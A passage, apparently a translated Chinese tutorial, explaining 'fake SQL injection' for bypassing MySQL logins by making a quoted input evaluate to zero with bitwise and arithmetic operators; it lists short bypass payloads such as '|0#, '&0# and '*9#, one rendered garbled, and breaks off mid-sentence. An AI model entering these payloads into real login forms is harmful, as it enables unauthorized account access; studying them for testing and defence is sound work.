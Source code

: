 如果你在 ID 中输入 0，所有内容都将被显示。这就是假 SQL 注入的原理。无论如何，结果为 0（真）将使得登录成功。为了使结果为 0（真），你需要一些东西处理整数，如使用位操作和算术运算。

下面是使用位运算的例子。

或位运算为任何程序员所熟知。正如我之前告诉过你的，''等于 0。如果你计算“0 或 0”，结果还是 0\. 所以下面的假 SQL 注入能成功登录。

```
'|0# 
```

当然，你也可以使用和运算。

```
'&0# 
```

这是使用异或运算的攻击方法

```
'⁰# 
```

同样可以使用移位操作。

```
'<<0#
'>>0# 
```

如果你喜欢使用位操作，你可以使用多种不同的攻击方法。

```
'&''#
'%11&1#
'&1&1#
'|0&1#
'<<0|0#
'<<0>>0# 
```

下面是使用算术运算的“假 SQL 注入”。 如果使用带有''的算术运算的结果为 0，攻击将会成功。下面是一个使用算术运算的例子。

```
'*9#
乘法

'/9#
除法

'%9#
求余

'+0#
加法

'-0#
减法 
```

关键点在于结果必须小于 1。你也可以使用如下语句攻击。

